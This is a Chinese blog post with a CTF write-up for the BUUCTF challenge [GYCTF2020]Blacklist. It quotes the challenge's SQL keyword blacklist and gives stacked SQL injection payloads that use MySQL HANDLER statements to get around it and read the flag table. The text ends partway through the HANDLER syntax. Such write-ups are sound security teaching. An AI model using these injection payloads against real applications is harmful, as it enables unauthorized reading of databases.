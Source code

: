 

# BUUCTF__web题解合集（二）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/107528029](https://blog.csdn.net/tm_1024/article/details/107528029)

## 前言

## 题目

### 一、[GYCTF2020]Blacklist

*   打开一个查询框，随便尝试发现过滤规则

    ```
    preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject); 
    ```

*   很是眼熟，确实，和之前做的[[强网杯 2019]随便注](https://blog.csdn.net/TM_1024/article/details/105730558)非常相似，增加了过滤规则。修改表名和set均不可用，所以很直接的想到了`handler`语句。

*   但依旧可以用堆叠注入获取数据库名称、表名、字段。

    ```
     1';show databases#    获取数据库名称

      1';show tables#       获取表名

      1';show columns from FlagHere ;#  或 1';desc FlagHere;#      获取字段名 
    ```

*   接下来用 `handler`语句读取内容。

    ```
     1';handler FlagHere open;handler FlagHere read first# 
    ```

*   直接得到 flag 成功解题。

*   补充`handler`语句相关。

*   mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。

*   语法结构：

    ```
    HANDLER tbl_name OPEN [ [AS] alias]

    HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)[ WHERE where_condition ] [LIMIT ... ]

    HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }[ WHERE where_condition ] [LIMIT ... ]

    HANDLER tbl_name READ { FIRST | NEXT }[ WHERE where_condition ] [LIMIT ... ]
